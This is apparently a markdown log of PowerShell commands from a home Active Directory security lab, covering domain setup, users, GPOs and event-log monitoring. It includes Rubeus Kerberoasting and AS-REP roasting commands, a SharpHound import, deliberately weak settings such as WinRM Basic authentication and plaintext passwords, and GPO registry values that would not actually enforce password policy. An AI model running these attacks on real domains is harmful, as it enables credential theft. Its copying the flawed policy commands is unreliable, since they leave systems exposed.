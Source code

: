 
# 💻 PowerShell Command Log – AD DS Security Lab

This document logs all core PowerShell commands used during the Active Directory lab setup and security testing.

---

## 🏗️ DOMAIN SETUP
```powershell
Install-WindowsFeature AD-Domain-Services -IncludeManagementTools
Install-ADDSForest -DomainName "forest.local" -InstallDNS
Get-ADDomainController | FL Name,Domain,Forest
```

---

## 🗂️ OU STRUCTURE
```powershell
New-ADOrganizationalUnit -Name "GROUPS" -Path "DC=forest,DC=local"
New-ADOrganizationalUnit -Name "INTERNS" -Path "DC=forest,DC=local"
Get-ADOrganizationalUnit -Filter *
```

---

## 👥 USER MANAGEMENT
```powershell
New-ADUser -Name "Ravi" -GivenName "Ravi" -Surname "Sharma" -SamAccountName "ravi" -Path "OU=MARKETING,OU=PUNE,OU=INDIA,DC=forest,DC=local" -AccountPassword (ConvertTo-SecureString "P@ssword10$" -AsPlainText -Force) -Enabled $true
New-ADUser -Name "Adrien" -GivenName "Adrien" -Surname "Agreste" -SamAccountName "adrien" -Path "OU=DESIGN,OU=PARIS,OU=FRANCE,DC=forest,DC=local" -AccountPassword (ConvertTo-SecureString "P@ssword10$" -AsPlainText -Force) -Enabled $true

Set-ADAccountPassword -Identity "adrien" -Reset -NewPassword (ConvertTo-SecureString "Test@1234" -AsPlainText -Force)
Enable-ADAccount -Identity "adrien"

Unlock-ADAccount -Identity "adrien"
```

---

## 👨‍👩‍👧‍👦 GROUP MANAGEMENT
```powershell
New-ADGroup -Name "IT_Admins" -GroupScope Global -Path "OU=GROUPS,DC=forest,DC=local" -Description "Admin rights"
New-ADGroup -Name "MFA_required" -GroupScope Universal -Path "OU=GROUPS,DC=forest,DC=local" -Description "MFA-enabled users"

Add-ADGroupMember -Identity "IT_Admins" -Members "ravi", "yoojung"
Add-ADGroupMember -Identity "MFA_required" -Members "adrien", "ravi"
```

---

## 🔐 PERMISSION DELEGATION
```powershell
dsacls "OU=MARKETING,OU=PUNE,OU=INDIA,DC=forest,DC=local" /G "IT_Admins:CC;user" /I:S
dsacls "OU=HR,OU=CHENNAI,OU=INDIA,DC=forest,DC=local" /G "HR_Junior:CA;Reset Password"
dsacls "OU=HR,OU=CHENNAI,OU=INDIA,DC=forest,DC=local"
```

---

## 🛡️ GROUP POLICY SETUP
```powershell
New-GPO -Name "Enforce_Strong_Passwords"
Set-GPRegistryValue -Name "Enforce_Strong_Passwords" -Key "HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\Network" -ValueName "MinPasswordLength" -Type DWord -Value 12
New-GPLink -Name "Enforce_Strong_Passwords" -Target "DC=forest,DC=local"

New-GPO -Name "Account_Lockout_3_Attempts"
Set-GPRegistryValue -Name "Account_Lockout_3_Attempts" -Key "HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System" -ValueName "LockoutBadCount" -Type DWord -Value 3

gpupdate /force
gpresult /r
gpresult /h report.html
```

---

## 📊 MONITORING & LOGGING
```powershell
Get-WinEvent -LogName Security -FilterXPath "*[System[(EventID=4625)]]" -MaxEvents 10
Get-WinEvent -LogName Security -FilterXPath "*[System[(EventID=4624)]]" -MaxEvents 10
Get-WinEvent -LogName Security -FilterXPath "*[System[(EventID=4688)]]" -MaxEvents 10
Get-WinEvent -LogName Security -FilterXPath "*[System[(EventID=4740)]]" -MaxEvents 5
```

---

## 🧪 ATTACK SIMULATIONS

### 🟠 Kerberoasting
```powershell
New-ADUser -Name "svcSQL" -SamAccountName "svcSQL" -AccountPassword (ConvertTo-SecureString "P@ssw0rd123" -AsPlainText -Force) -Enabled $true
Set-ADUser svcSQL -ServicePrincipalNames @{Add="MSSQLSvc/dc.forest.local:1433"}
.\Rubeus.exe kerberoast /user:svcSQL /rc4opsec
```

### 🟠 AS-REP Roasting 
```powershell
Set-ADAccountControl -Identity "svcWeb" -DoesNotRequirePreAuth $true
.\Rubeus.exe asreproast
```

---

## 🧪 Brute Force Attack & Account Lockout Simulation

### 🔐 Account Lockout Policy Configuration (via GPO)
```powershell
New-GPO -Name "Account_Lockout_3_Attempts"
Set-GPRegistryValue -Name "Account_Lockout_3_Attempts" -Key "HKLM\\SOFTWARE\\Microsoft\\Windows\\CurrentVersion\\Policies\\System" -ValueName "LockoutBadCount" -Type DWord -Value 3
New-GPLink -Name "Account_Lockout_3_Attempts" -Target "DC=forest,DC=local"
gpupdate /force

# Simulate failed login via script — 
$domain = "FOREST"
$username = "adrien"
$password = "WrongPassword1"

$securePassword = ConvertTo-SecureString $password -AsPlainText -Force
$creds = New-Object System.Management.Automation.PSCredential ("$domain\\$username", $securePassword)
Start-Process cmd.exe -Credential $creds

### 📊 Monitor Lockout & Failed Logins

# Failed logins
Get-WinEvent -LogName Security -FilterXPath "*[System[(EventID=4625)]]" -MaxEvents 10

# Account lockout events
Get-WinEvent -LogName Security -FilterXPath "*[System[(EventID=4740)]]" -MaxEvents 10

# Successful logins
Get-WinEvent -LogName Security -FilterXPath "*[System[(EventID=4624)]]" -MaxEvents 10

---


 🛰️ REMOTE MANAGEMENT
```powershell
Enable-PSRemoting -Force
Add-ADGroupMember -Identity "Remote Management Users" -Members "adrien", "ravi"
winrm set winrm/config/service/auth '@{Basic="true"}'
```
---

## 🛰️ REMOTE MANAGEMENT
```powershell
Enable-PSRemoting -Force
Add-ADGroupMember -Identity "Remote Management Users" -Members "adrien", "ravi"
winrm set winrm/config/service/auth '@{Basic="true"}'
```

--

## 🛠️ TROUBLESHOOTING / OTHER
```powershell
Import-Module .\SharpHound.ps1  # (Failed due to .NET 3.5)
Get-ADGroupMember -Identity "IT_Admins"
Get-ADUser -Filter * | Select-Object Name, SamAccountName, Enabled
```

---

## 🧹 CLEANUP 
```powershell
Remove-ADUser -Identity "svcSQL"
Remove-ADGroup -Identity "HR_Junior"
```

